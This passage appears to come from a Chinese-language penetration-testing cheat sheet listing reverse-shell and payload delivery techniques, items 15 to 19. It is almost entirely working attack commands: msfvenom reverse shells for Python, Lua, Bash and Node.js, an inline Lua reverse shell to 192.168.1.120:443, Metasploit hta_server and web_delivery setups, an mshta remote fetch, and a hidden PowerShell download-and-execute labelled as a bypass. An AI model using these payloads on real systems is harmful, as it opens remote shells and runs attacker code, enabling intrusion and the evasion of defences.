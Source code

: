 ```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/python.py

命令行执行：
[/var/www/html/]$ python /tmp/python.py
```

#### 15. Script reverse_lua lua

```
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/payload.lua

命令行执行：
[/var/www/html/]$ lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.1.120',443);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```

#### 16. Script reverse_bash bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/payload.sh

命令行执行：
[/var/www/html/]$ bash /tmp/payload.sh
```

#### 17. Script reverse_tcp nodejs

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/payload.js

命令行执行：
[/var/www/html/]$ nodejs /tmp/payload.js
```

#### 18. Bypass hta_server mshta

```
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set target 1
msf exploit(windows/misc/hta_server) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.120
msf exploit(windows/misc/hta_server) > set lport 443
msf exploit(windows/misc/hta_server) > exploit 

命令行执行：
mshta http://192.168.1.120:8080/xc2Pvkpa3FU6Q.hta
```

#### 19. Bypass web_delivery powershell

```
msf > use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 192.168.1.120
msf exploit(multi/script/web_delivery) > set lport 443
msf exploit(multi/script/web_delivery) > set uripath /
msf exploit(multi/script/web_delivery) > exploit

命令行执行：
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://192.168.1.120:8080/');
```
